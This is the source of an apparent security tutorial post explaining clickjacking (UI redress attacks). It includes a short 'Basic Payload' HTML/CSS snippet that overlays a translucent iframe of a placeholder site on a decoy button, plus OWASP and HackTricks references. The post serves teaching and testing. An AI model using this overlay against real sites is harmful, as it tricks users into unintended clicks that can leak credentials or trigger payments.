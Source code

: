 ```yaml
---
title: Clickjacking (UI redressing)
#author: cotes
date: 2024-11-21 12:00:00 +04:00
categories: [Web Vulnerabilities,Clickjacking]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/clickjacking/clickjacking.png
  alt: Clickjacking
---
```


## What is Clickjacking?

Clickjacking, also known as a “UI redress attack," unintentionally clicks on an invisible button placed over the visible web page user interface. This is possible when the invisible button is present in the iframe layer which is essentially superimposed over the actual page.

So, when a user clicks on some area thinking of performing a particular action, they are actually performing some other action.

This can cause users to unwittingly download malware, visit malicious web pages, provide credentials or sensitive information, transfer money, or purchase products online.

## Exploitation

**Basic Payload**

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 470px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://publish.hoax.com/"></iframe>
```
{: file='Clickjacking.html'}






## References

[**OWASP**](https://owasp.org/www-community/attacks/Clickjacking)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/clickjacking)

